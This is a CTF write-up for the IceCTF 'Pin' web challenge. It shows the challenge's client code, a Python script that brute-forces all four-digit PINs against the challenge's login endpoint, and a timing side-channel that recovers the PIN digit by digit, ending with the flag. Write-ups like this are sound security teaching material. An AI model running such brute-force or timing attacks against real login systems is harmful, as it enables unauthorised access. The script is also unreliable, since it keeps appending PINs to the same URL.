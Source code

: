 ## Pin (Web)

> You are late again, and just can't remember the PIN code to the locker that has the secret Novichok stuff you need for work. What do you do?

We are given a website where we can enter a pin: 

![pin1](https://i.imgur.com/6OHV1IG.png)

After entering a pin, we can see that the response time is returned.

Looking at the source code, we see a file ``pin.js``.

Here is the interesting part of the code:

```
  handleSubmit(e) {
    // YV
    e.preventDefault();
    const digit = e.target.innerHTML;
    const newEntered = this.state.entered + digit;

    this.setState(state => ({ placedwords: state.placedwords + 1, entered: newEntered, time: null }));

    console.log('entered: ' + newEntered);

    if (newEntered.length >= 4) {
       fetch ('/login/'+newEntered)
       .then(results => {
       		return results.json();
       }).then((data) => {
       		//let time = data.get('time');
		this.setState({ response: data, time: data.time, flag: data.flag });
		//console.log('woot');
		console.log(this.state.response);
		console.log(this.state.time);
		console.log(this.state.flag);
		if (data.correct == true) {
		    console.log('flag is ' + data.flag);
		    //window.sendMessage({event: "flag", flag: data.flag });
		}
       }).catch (err => { console.log(err);});
    }
  }
}
```

We can see that whenever we input a pin, it is sent to ``/login/pin`` and json data is returned. This data contains whether the flag is correct, the flag if correct, and the time it took to check the pin.

From here, there are two different solutions.

### Solution 1 - Brute Force

Since we can easily access the endpoint, we can easily write a script to check each and every pin (0000-9999) to get the flag.

```python
#http://www.misc-pin.vuln.icec.tf/login/2222
import requests

url = "http://www.misc-pin.vuln.icec.tf/login/"
num = 1

for i in range(0, 10000):
	url = url + str(i).zfill(4)
	r=requests.get(url)
	data = r.json()
	if data["correct"]:
		print(r.text)
		exit(1)
	else:
		print("Pin " + str(i).zfill(4) + " " + str(data['time']))
	num+=1
	print(r.text)
```

Using this, we can easily find the pin to be ``1729``.

```
http://www.misc-pin.vuln.icec.tf/login/1729

{"correct":true,"flag":"IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}","time":1432}
```

> IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}


### Method 2 - Timing

Whenever a pin is entered, we can see the response time. Whenever the first number was 1, I noticed the response takes longer (1200 compared to 1100). Whenever the second number is 7, the response time is 1300. Using this logic, I found the pin to be 1729.

![pinsolution](https://i.imgur.com/58UMsDx.png)

> IceCTF{t1mIng_r3al1y_is_everyth1ng_isNt_it}